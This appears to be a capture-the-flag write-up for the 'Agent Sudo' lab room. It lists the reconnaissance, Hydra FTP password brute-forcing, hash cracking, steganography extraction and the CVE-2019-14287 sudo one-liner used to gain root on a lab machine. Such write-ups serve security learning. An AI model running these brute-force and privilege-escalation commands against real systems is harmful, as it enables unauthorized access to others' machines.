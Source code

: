 ## General Information
- Room: Agent Sudo
- Difficulty: Easy
- Date: 16/11/2023
- Description: "You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth." 


## Methodology
- Used Nmap for service identification.
- Explored HTTP using Curl.
- Executed Hydra for FTP brute-force.
- Analyzed FTP using the FTP client.
- Employed BinWalk to inspect cutie.png.
- Cracked a password hash using John.
- Decoded a Base64 string.
- Extracted hidden data using Steghide.
- Established SSH connection, copied files via SCP.
- Exploited CVE-2019-14287 for privilege escalation.


## Results

### Reconnaissance
- IP:10.10.188.244  
- Port Scan results:

| PORT   | STATE | SERVICE    | VERSION                                |
|--------|-------|------------|----------------------------------------|
| 22/tcp | open  | ssh        | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http       | Apache httpd 2.4.18 (Ubuntu)            |

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Tools and Exploitation

#### Nmap Scan
~~~nmap
nmap -sV -oN nmap_scan.txt 10.10.188.244
~~~

#### Curl
~~~curl
curl "http://10.10.188.244/" -H "User-Agent: C" -L
~~~

#### Hydra FTP Brute-force
~~~hydra
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.188.244 
~~~

#### FTP
~~~ftp
ftp 10.10.188.244   
~~~

#### BinWalk
~~~binwalk
binwalk cutie.png 
binwalk -e cutie.png 
~~~


#### John the Ripper
~~~ jhon | zip2john
zip2john 8702.zip > hash.txt 
john hash.txt 
~~~

#### Base64
~~~ base64
echo 'QXJlYTUx' | base 64 -d
~~~

#### Base64
~~~ steghide
steghide extract -sf cute-alien.jpg 
~~~

#### SSH
~~~ ssh
ssh james@10.10.188.244
sudo scp james@10.10.188.244:Alien_autospy.jpg ./
~~~

#### Privilege Escalation (CVE-2019-14287)
~~~  CVE-2019-14287
sudo -u#-1 /bin/bash 
~~~

### Exploited Vulnerabilities
- FTP Brute-force: Successfully gained access to the FTP server by cracking the password for the user 'chris' using Hydra.
- Steganography: Discovered hidden data in the image cute-alien.jpg using Steghide, revealing additional information.
- Privilege Escalation (CVE-2019-14287): Exploited the sudo vulnerability to escalate privileges and gain elevated access to the system.